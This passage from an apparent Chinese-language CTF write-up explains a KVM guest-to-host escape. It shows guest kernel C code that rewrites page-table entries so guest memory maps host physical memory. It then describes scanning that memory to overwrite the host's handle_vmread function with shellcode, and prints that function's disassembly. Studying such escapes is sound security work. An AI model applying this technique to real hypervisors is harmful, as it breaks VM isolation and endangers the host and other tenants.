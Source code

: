 因为第三级页表的第272个对应到高39位到高48位即100010000对应0x88和一个二进制位0，然后这里前面的位会和这里的最高位保持一致

```c
    cr3 = read_cr3();
    four= (cr3 & ~0xfffull) + page_offset_base;

    third_page= kzalloc(0x1000, GFP_KERNEL);
    third= virt_to_phys(third_page);

    four[272] = third| 0x7;

    third[0] =  0x180000000 | 0x87;
```

寻找覆盖函数
------

最终虚拟机中0xffff880000000000+0GB-0xffff880000000000+1GB是映射到主机物理内存0-1G，很显然1G远远大于主机内存了（qemu模拟设置的内存只有几百M），所以此时我们虚拟机中从0xffff880000000000开始遍历，相当于从物理地址0开始遍历，自然可以遍历到想要覆盖的函数,然后覆盖为shellcode

原函数

```php
.text:000000000001F4D0                                                 handle_vmread   proc near               ; DATA XREF: nested_vmx_hardware_setup+1C0↓o
.text:000000000001F4D0
.text:000000000001F4D0                                                 var_64          = byte ptr -64h
.text:000000000001F4D0                                                 var_60          = qword ptr -60h
.text:000000000001F4D0                                                 var_58          = qword ptr -58h
.text:000000000001F4D0                                                 var_50          = dword ptr -50h
.text:000000000001F4D0                                                 var_38          = qword ptr -38h
.text:000000000001F4D0
.text:000000000001F4D0 F3 0F 1E FA                                                     endbr64
.text:000000000001F4D4 41 57                                                           push    r15
.text:000000000001F4D6 41 56                                                           push    r14
.text:000000000001F4D8 41 55                                                           push    r13
.text:000000000001F4DA 41 54                                                           push    r12
.text:000000000001F4DC 55                                                              push    rbp
.text:000000000001F4DD 48 89 FD                                                        mov     rbp, rdi
.text:000000000001F4E0 53                                                              push    rbx
.text:000000000001F4E1 48 83 EC 38                                                     sub     rsp, 38h
.text:000000000001F4E5 4C 8B BF 78 1C 00 00                                            mov     r15, [rdi+1C78h]
.text:000000000001F4EC 65 48 8B 04 25 28 00 00 00                                      mov     rax, gs:28h
.text:000000000001F4F5 48 89 44 24 30                                                  mov     [rsp+68h+var_38], rax
```
